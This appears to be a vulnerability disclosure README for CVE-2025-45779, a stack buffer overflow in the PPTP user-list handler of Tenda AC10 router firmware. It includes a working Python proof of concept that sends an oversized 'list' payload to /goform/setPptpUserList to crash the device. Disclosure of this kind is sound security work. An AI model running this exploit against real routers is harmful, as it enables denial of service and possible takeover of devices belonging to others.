





# CVE-2025-45779 - Tenda AC10 V1.0 Stack Buffer Overflow in `formSetPPTPUserList`

## Summary

A stack-based buffer overflow vulnerability exists in the `formSetPPTPUserList` handler of the Tenda AC10 router (firmware V1.0re_V15.03.06.47). This vulnerability allows remote unauthenticated attackers to execute arbitrary code or cause a denial-of-service (DoS) condition via a specially crafted `list` parameter in an HTTP POST request.

- **CVE ID**: CVE-2025-45779

- **Vendor**: Shenzhen Tenda Technology Co., Ltd.  https://www.tenda.com.cn/

- **Product**: Tenda AC10 V1.0

- **Firmware Version**: V15.03.06.47 

- **Vulnerability Type**: Stack Buffer Overflow

- **Attack Vector**: Remote

- **Impact**: Remote Code Execution, Denial of Service

- **Discoverer**: You Sun (independent security researcher)

  

---

## Affected Firmware

- Firmware version: `V15.03.06.467

- Official firmware download page: https://www.tendacn.com/download/detail-3796.html

<div align="center">
  
</div>


---

## Vulnerability Details

The vulnerability is located in the `formSetPPTPUserList` handler inside the `httpd` binary. When handling a POST request to `/goform/setPptpUserList`, the firmware copies the contents of the `list` parameter into a fixed-size stack buffer using unsafe string manipulation functions (e.g., `strcpy`, `sprintf`, etc.) without proper bounds checking.

By submitting a specially crafted payload that contains a large number of user entries, an attacker can overflow the buffer, leading to memory corruption, device crash, or potential arbitrary code execution with root privileges.
<div align="center">



</div>

---
## Demo




*The above GIF demonstrates the crash behavior when the vulnerability is triggered with the PoC.*

---

## Proof of Concept (PoC)：CVE-2025-45779-poc-TendaAC10.py

```python
import requests
cookie = {'Cookie':'SESSION_ID=2:1668665284:2','password': 'caw5gk'}
def gen_user(index):
    username = f"user{index:02d}".ljust(64, 'A')  # Each username is filled with 64 bytes
    password = f"pass{index}"
    uid = str(index)
    admin = "1"  # bypass admin check
    return f"{username};{password};{uid};{admin};x;x;x"

def build_payload(user_count=100):
    return "~" + "~".join([gen_user(i) for i in range(user_count)]) + "~"

def send_exploit(target_url):
    payload = build_payload()
    data = {
        "list": payload
    }

    print(f"[+] Sending payload to {target_url} ...")
    r = requests.post(target_url, data=data,cookies=cookie)
    print(f"[+] Response Status: {r.status_code}")
    print(f"[+] Response Body:\n{r.text}")
# router ip
base_url = "http://192.168.5.12"
set_url = f"{base_url}/goform/setPptpUserList"
try:
    send_exploit(set_url)
except Exception as e:
    print(f'An error  occurred: {e}')
```
